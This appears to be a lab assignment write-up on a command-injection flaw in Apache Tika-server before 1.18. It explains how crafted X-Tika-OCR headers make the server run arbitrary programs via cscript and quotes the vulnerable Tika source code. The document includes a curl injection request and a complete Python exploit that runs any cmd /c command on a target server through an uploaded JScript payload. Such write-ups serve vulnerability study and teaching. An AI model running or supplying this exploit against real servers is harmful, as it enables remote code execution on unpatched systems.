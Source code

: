# PS
- Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server < 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environmental Setup

We downloaded the vulnerable version of the apache tika server in a windows 10 machine (running on azure windows 10 server instance) from https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the tika server with the following command .  

```
java -jar tika-server-1.17.jar
```

# Vulnerability and Exploit
## Exploit-1: Arbitrary Command Execution

We are able to inject arbitrary commands to the tika server through specifically crafted header prefix `X-Tika-OCRTesseractPath`. This header specifies the path to the OCR Tesseract binary `tesseract.exe` but we can inject arbitrary commands through it using the fact that Windows ignores anything provided after double quotes.

The injection HTTP request looks something like
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers.  
The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with `"X-Tika-OCR" prefix`, the server code invokes `processHeaderConfig()` function which parses the HTTP request and constructs the `TesseractOCRConfig` object.  
The `doOCR()` function then uses the TesseractOCRConfig object to construct the command for `ProcessBuilder`.  However, the doOCR() function while constructing the command appends the `OCRTesseractPath` (i.e. the passed `calc.exe`) with `tesseract.exe`.  
The resultant command looks like `"calc.exe"tesseract.exe ..."`. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command `calc.exe`.  

The command constructed by the doOCR() function is as follows.  
```cmd.exe
"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0
``` 


## Exploit-2: JScript Execution

The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is `".tmp"`. Also, uploading an image file with some code would due to verification of the `magic bytes` of the image. The work around is to use `Cscript` that takes the first argument as the script and allows to use `"//E:engine" flag` to specify the script engine so that the file extension does not matter. Also, setting the content type to `"image/jp2"` forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like
```  
"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0
```
This is exploited in Exploit-2 code.

```python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"}

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
	requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```


# Analysis of Server Code Snippets
### TikaResource.java
  https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

```java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

## TesseractOCRParser.java
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

```java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```
